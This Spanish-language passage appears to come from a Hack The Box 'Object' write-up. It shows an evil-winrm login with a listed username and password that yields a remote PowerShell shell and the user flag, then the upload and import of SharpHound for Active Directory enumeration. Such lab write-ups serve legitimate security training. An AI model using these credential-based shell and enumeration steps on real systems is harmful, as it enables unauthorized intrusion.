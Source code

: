 Ahora que el servicio de `winrm` esta activo, podemos conectarnos usando estas credenciales al equipo y obtenemos la primera flag `user.txt`.

```bash
❯ evil-winrm -i 10.10.11.132 -u 'oliver' -p 'c1cdfun_d2434'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\oliver\Documents> whoami
object\oliver
```
![](/assets/images/HTB/htb-writeup-Object/rt.PNG)


## ELEVACION DE PRIVILEGIOS [#](#elevacion-de-privilegios) {#elevacion-de-privilegios}

Vamos a utilizar `sharphound` para enumerar el sistema y visualizar los resultados en `bloodhound`.

* [SharpHound.ps1](https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1)


Subimos el `sharphound` al equipo importandolo directamente con `Iex`.

```cmd
*Evil-WinRM* PS C:\Windows\Temp\Privesc> upload /home/fmiracle/machines/Oject/content/SharpHound.ps1
                                        
Info: Uploading /home/fmiracle/machines/Oject/content/SharpHound.ps1 to C:\Windows\Temp\Privesc\SharpHound.ps1
                                        
Data: 1297764 bytes of 1297764 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Windows\Temp\Privesc> Import-Module .\SharpHound.ps1
```

![](/assets/images/HTB/htb-writeup-Object/ob1.PNG)
